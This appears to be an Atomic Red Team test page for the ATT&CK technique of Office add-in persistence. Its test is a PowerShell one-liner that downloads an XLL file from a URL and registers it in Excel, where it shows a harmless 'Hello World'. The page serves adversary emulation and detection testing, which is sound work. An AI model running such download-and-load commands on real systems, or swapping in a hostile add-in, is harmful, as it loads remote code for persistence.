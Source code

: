 # T1137.006 - Office Application Startup: Add-ins
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137/006)
<blockquote>Adversaries may abuse Microsoft Office add-ins to obtain persistence on a compromised system. Office add-ins can be used to add functionality to Office programs. (Citation: Microsoft Office Add-ins) There are different types of add-ins that can be used by the various Office products; including Word/Excel add-in Libraries (WLL/XLL), VBA add-ins, Office Component Object Model (COM) add-ins, automation add-ins, VBA Editor (VBE), Visual Studio Tools for Office (VSTO) add-ins, and Outlook add-ins. (Citation: MRWLabs Office Persistence Add-ins)(Citation: FireEye Mail CDS 2018)

Add-ins can be used to obtain persistence because they can be set to execute code when an Office application starts. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Code Executed Via Excel Add-in File (XLL)](#atomic-test-1---code-executed-via-excel-add-in-file-xll)


<br/>

## Atomic Test #1 - Code Executed Via Excel Add-in File (XLL)
Downloads a XLL file and loads it using the excel add-ins library.
This causes excel to display the message "Hello World". This does not include persistent code execution.

The provided XLL is for 64-bit versions of Excel only. If you are using a 32-bit version this will fail and "False" will
be printed to the screen.

[Source of XLL](https://github.com/edparcell/HelloWorldXll)

**Supported Platforms:** Windows


**auto_generated_guid:** 441b1a0f-a771-428a-8af0-e99e4698cda3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| xll_url | url of the file HelloWorldXll.xll | Url | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.006/bin/HelloWorldXll.xll|
| local_file | name of the xll file | Path | $env:tmp&#92;HelloWorldXll.xll|


#### Attack Commands: Run with `powershell`! 


```powershell
iwr -URI '#{xll_url}' -o "#{local_file}"; (new-object -ComObject excel.application).RegisterXLL("$env:tmp\HelloWorldXll.xll")
```






<br/>
